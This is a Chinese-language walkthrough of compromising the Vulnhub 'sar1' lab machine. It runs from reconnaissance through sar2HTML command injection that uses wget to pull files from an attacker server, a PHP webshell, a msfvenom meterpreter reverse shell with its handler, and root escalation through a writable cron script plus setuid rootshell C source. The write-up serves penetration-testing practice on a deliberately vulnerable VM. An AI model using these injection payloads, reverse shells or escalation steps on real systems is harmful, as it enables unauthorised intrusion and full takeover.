# 第9次 sar1靶机

# 1.信息收集

## 1.1 主机发现

```
netdiscover
```

主机IP地址为：

```
192.168.81.152
```


## 1.2  端口扫描

```
masscan --rate=1000 -p 0-65535 192.168.81.152
```

经扫描发现只有1个端口是打开的

```
80
```


## 1.3 端口服务识别

```
nmap -sV -T4 -O 192.168.81.152 -p 80
```

80端口的服务信息如下：


## 1.4 御剑扫描

利用御剑扫描IP地址

```
192.168.81.152
```

得到两个网址

```
http://192.168.81.152/index.html
http://192.168.81.152/robots.txt
```


网址中的内容

网页中并未得到有用的信息

```
http://192.168.81.152/index.html
```



文件中的内容如下

```
http://192.168.81.152/robots.txt
```

文件的内容：

```
sar2HTML
```

```
https://spankowitz.github.io/Vulnhub_sar/

https://lacashita.com/bl0g/20200407_[VLN]_Sar1.html


```


## 1.5 目录扫描

```
dirb http://192.168.81.152/
```

得到的目的地址

```
+ http://192.168.81.152/index.html (CODE:200|SIZE:10918)                                                               
+ http://192.168.81.152/phpinfo.php (CODE:200|SIZE:98289)                                                              
+ http://192.168.81.152/robots.txt (CODE:200|SIZE:9)                                                                   
+ http://192.168.81.152/server-status (CODE:403|SIZE:279)  
```



```
http://192.168.81.152/phpinfo.php
```



# 2.漏洞探测

## 2.1 发现新目录

从robot.txt文件中得到的内容加到地址后面进行扫描

```
dirb http://192.168.81.152/sar2HTML
```

扫描到的地址如下：

```
http://192.168.81.152/sar2HTML/index.php        
http://192.168.81.152/sar2HTML/LICENSE
```



地址中的内容

```
http://192.168.81.152/sar2HTML/index.php
```

## 2.2 探测sar2HTML

```
searchsploit sar2HTML
```



查看**47204.txt**文件

```
find find / -name 47204.txt
```

```
cat /usr/share/exploitdb/exploits/php/webapps/47204.txt
```




查找49344.py文件

```
find / -name 49344.py
```

把这个文件复制到我们自己的目录下面

这里我复制到了

```
home/xxb1   #这个目录下面
```



在 home/xxb1 目录下开启临时服务器

```
python2 -m SimpleHTTPServer 1234 
```

然后构造payload，引导目标机下载

```
http://192.168.81.152/sar2HTML/index.php?plot=;wget%20http://192.168.81.131:1234/49344.py
```

```
http://192.168.81.152/sar2HTML/index.php?plot=;wget%20http://192.168.81.131:1234/shell.py
```



返回kali查看

目标机已经下载该文件



## 2.3 蚁剑连接

在 **home/xxb1** 目录下开启临时服务器

```
python2 -m SimpleHTTPServer 1234 
```

然后构造payload，引导目标机下载

首先让目标机下载我们的php文件

php文件也在目录 **home/xxb1** 中

```
http://192.168.81.152/sar2HTML/index.php?plot=;wget%20http://192.168.81.131:1234/xxb.php
```



然后用蚁剑进行连接

```
http://192.168.81.152/sar2HTML/xxb.php
```



# 3.getshell

## 3-1 上传木马文件

MSF生成木马文件，木马文件名为

**4444.elf**

```
msfvenom -p linux/x64/meterpreter/reverse_tcp lhost=192.168.81.131 lport=4444 -f elf  >4444.elf
```



## 3.2 kali监听

在目录**home/xxb1**创建**linux.rc**文件，并添加下列内容

```
vim linux.rc  #创建文件
```

添加的内容如下

```
use exploit/multi/handler
set payload linux/x64/meterpreter/reverse_tcp
set LHOST 192.168.81.131
set LPORT 4444
exploit
```



服务端监听，监听后在蚁剑上运行我们上传的木马文件

```
msfconsole  -qr /home/xxb1/linux.rc 
```

蚁剑运行木马文件

```
chmod +x 4444.elf
./4444.elf
```




返回kali，已经成功反弹



## 3.3 获得shell

```
shell
```



获取shell后，切换python终端

```
python -c 'import pty;pty.spawn("/bin/bash")'
```

发现无法切换



# 4.提权

## 4.1 查看文件

在 

```
/var/www/html
```

目录下发现一个名为 finally.sh的文件

它属于 root

查看 **finally.sh** 文件

```
cat finally.sh   #记得目录在 /var/www/html下
```



该脚本执行 write.sh 脚本

查看 write.sh 脚本内容

```
cat write.sh
```



查看root如何执行 finally.sh 文件

```
cd /etc
cat crontab
```

- 我们看到有一个每 5 分钟运行一次的任务
- 它以 root 身份运行 finally.sh 脚本
- 而后者又运行 write.sh



## 4.2 编写提权文件

由于我们可以编辑文件 write.sh

我们将使用它来下载一个 rootshell.c 文件

- 给它适当的权限
- 更改所有者

脚本内容如下：

```
// gcc -o /tmp/rootshell /tmp/rootshell.c
// chmod u+s /tmp/rootshell

#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
int main(void)
{
setuid(0); setgid(0); system("/bin/bash");
}
```

文件保存的名字为 rootshell.c

下载文件

```
wget wget http://192.168.81.131:1234/rootshell.c
```



注意下载文件的时候kali开启服务

```
python2 -m SimpleHTTPServer 1234 
```



## 4.3 获得root

```
echo "chown root:www-data /var/www/html/rootshell" >> write.sh
echo "chmod 777 /var/www/html/rootshell" >> write.sh
echo "chmod +s /var/www/html/rootshell" >> write.sh
```

我们等了 5 分钟，然后就获得了root权限